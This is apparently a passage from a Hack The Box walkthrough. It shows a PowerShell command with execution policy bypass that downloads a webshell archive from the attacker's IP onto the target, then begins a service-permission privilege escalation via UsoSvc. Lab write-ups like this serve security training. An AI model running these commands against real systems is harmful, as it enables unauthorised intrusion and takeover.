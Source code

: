 Download the webshell.rar to `C:\users\luke\Documents\ods` like so.

```
C:\Users\luke\Documents\ods>powershell -nop -exec bypass -c iwr http://10.10.15.203:8000/webshell.rar -outfile .\webshell.rar
```

<a class="image-popup">
![a603fbe6.png](/assets/images/posts/re-htb-walkthrough/a603fbe6.png)
</a>

Bam, a webshell as IIS service.

### Weak Service

I found out that `accesschk.exe` was installed as part of SysInternals during my enumeration earlier on. Using `accesschk.exe`, I was able to determine that `NT AUTHORITY\SERVICE` has full service access to UsoSvc.

<a class="image-popup">